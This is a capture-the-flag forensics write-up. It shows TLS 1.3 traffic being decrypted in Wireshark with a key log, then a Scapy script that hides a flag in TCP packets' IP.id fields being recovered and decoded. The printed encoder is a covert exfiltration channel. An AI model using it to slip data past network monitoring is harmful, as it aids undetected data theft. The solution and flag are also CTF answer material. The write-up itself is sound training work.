 # Covert
## Description
> It appears there's been some shady communication going on in our network...
## Challenge Overview
We were given `keys.log` and `cchall.pcapng` to analyze. `chall.pcapng` conatains several TLS, ARP and QUIC IETF packets. And the `keys.log` contains some sort of communication handshake between server and client. By giving the log to ChatGPT, I found out that the log is `TLS traffic secret` specifically `TLSv1.3`. 

In recent versions, Wireshark supports decrypting `TLS 1.3` traffic, but only if it has access to these TLS traffic secrets. When you provide these secrets to Wireshark, it can use them to decrypt the encrypted communication between a client and a server, allowing you to analyze the data inside those packets (which is usually hidden when encrypted with TLS). 

### How to Use These Secrets in Wireshark:

- Go to Edit -> Preferences.

- Under Protocols, select TLS.

- In the (Pre)-Master-Secret log filename field, provide a path to a file that contains the traffic secrets.

![image](https://github.com/user-attachments/assets/685199fc-06b0-4d99-ad48-002958f20121)


After giving the secret log to Wireshark, we can see some HTTP/HTTP2 packets.

![image](https://github.com/user-attachments/assets/eefbbf2a-9c68-458a-9179-4c0239e4a172)

## Solution

We can start analyzing HTTP packets first by following HTTP stream. There is some Python script at Stream 2. 


This Python code leverages Scapy to create a covert channel by encoding a message into the IP header of TCP packets. The goal is to send a hidden message by encoding each character into the `IP.id` field of the IP packet

For each letter in the flag The ASCII value of the letter is calculated using ord(letter).
This ASCII value is multiplied by key to generate a new value, which is stored in the id field of the IP header. The `IP.id` field is typically used to identify IP packets, but here it is being repurposed for covert communication.

```py
<html><body>
    # ez covert transfer...
    from scapy.all import IP, TCP, send

    key = ??

    dst_ip = &#34;X.X.X.X&#34;
    dst_port = ?????

    src_ip = &#34;X.X.X.X&#34;
    src_port = ?????

    def encode_message(message):
        for letter in message:
            ip = IP(dst=dst_ip, src=src_ip, id=ord(letter)*key)

            tcp = TCP(sport=src_port, dport=dst_port)

            send(ip/tcp)

    encode_message(&#34;????????????&#34;)
        </body></html>
```
Filter out the `TCP` protocols and include `IP.id` as one of the columns. We can see that `IP.id` from `172.20.10.5` to `172.57.57.57` potentially becomes the flag since packet number `265` and `269` contain the same identification number (5445). Since the flag starts with letter "c", we can conclude that `ord('c')*key = 5445`. With some quick math, the key would be `55`.

![image](https://github.com/user-attachments/assets/d97ba92b-0684-4822-80a1-4f48fcc02011)

We created a Python script to extract `IP.id` from `172.20.10.5` to `172.57.57.57` and decode it using the key that we got. 

```py
from scapy.all import rdpcap, IP, TCP

key = 55

def decode_message(ip_ids, key):
    message = ''
    for ip_id in ip_ids:
        char = chr(ip_id // key)
        message += char
    return message

packets = rdpcap('chall.pcapng') 

ip_ids = []

for packet in packets:
    if IP in packet and TCP in packet:
        if packet[IP].src == "172.20.10.5" and packet[IP].dst == "172.57.57.57":
            ip_ids.append(packet[IP].id)

flag = decode_message(ip_ids, key)

print(f"Decoded flag: {flag}")

```
## Flag
```
csawctf{licen$e_t0_tr@nsmit_c0vertTCP$$$}
```
